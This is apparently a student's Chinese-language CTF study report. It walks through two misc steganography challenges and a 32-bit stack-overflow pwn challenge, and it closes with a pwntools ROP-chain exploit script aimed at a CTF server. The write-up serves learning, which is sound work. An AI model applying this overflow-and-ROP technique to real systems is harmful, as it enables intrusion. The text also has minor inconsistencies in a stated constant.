# ##翟一鸣学习报告03

misc的知识忘了好多，爲了出题去补了一些，做了一些题目，pwn和汇编的有关的就只是看看教程，题没怎么做

## ctfshow misc40

（基本上跟着wp做的）

压缩包中有三个文件未加密



txt文件内容如下



意思应该就是将这串二进制一步一步转换爲十进制，结果如下



图片放到010打开得到



是brainfuck，解密出来是一段核心价值观编码，再次解密



mp3使用MP3Stego解密



得到svega.mp3.txt，打开得到hint


压缩包密码abc123，解压得svega.wav

根据提示静默之眼，就是使用SilentEye解密，Sound quality为high，type为AES128，Key为202013
点decode得到flag



## ctfshow misc30

zipcenop可以解开zip伪加密，或者在010中改

zipcenop使用如下

```
┌──(root💀kali)-[~/tools/misc]
└─# java -jar zipcenop.jar r aihe.zip 
```

解压得aihe.mp3，foremos可以分离出一张图片



明显宽度不对，查看图片属性，看到高度为371，宽度为895，分别将其由10进制转为16进制：0173、037f



在010中将高度数值调高



可以得到猪圈密码，解密后即可得到flag



## buuctf picoctf_2018_rop chain

32位动态链接，NX打开


mian函数如下



vuln函数里有栈溢出



将flag读入到了参数s里面，满足条件`win1&&win2 &&a1==-59039827`的条件，就能读出flag



发现win1已经被赋值1，可以不用管，




win2赋值的函数如下

当满足win1 && a1 == -1163220307时，win2将被赋值1，这里win1已经满足了，所以只需要给win_function2传参时，将参数设置成-1163220307即可。

满足win1和win2后再返回来看flag函数，最后只需要满足a1 == -559039827即可输出flag。

a1是从flag函数的参数中获取的，是可控的。



代碼如下

```python
from pwn import *

#start
io = remote("node4.buuoj.cn",26324)
# io = process("../buu/picoctf_2018_rop chain")
elf = ELF("../buu/PicoCTF_2018_rop_chain")


#params
flag_addr = elf.symbols['flag']
win1_addr = elf.symbols['win_function1']
win2_addr = elf.symbols['win_function2']
win2_a = 0x0BAAAAAAD
flag_a = 0x0DEADBAAD

#attack
payload = b'M'*(0x18+4) + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(win2_a) + p32(flag_a)
io.sendlineafter("input> ",payload)

io.interactive()

```

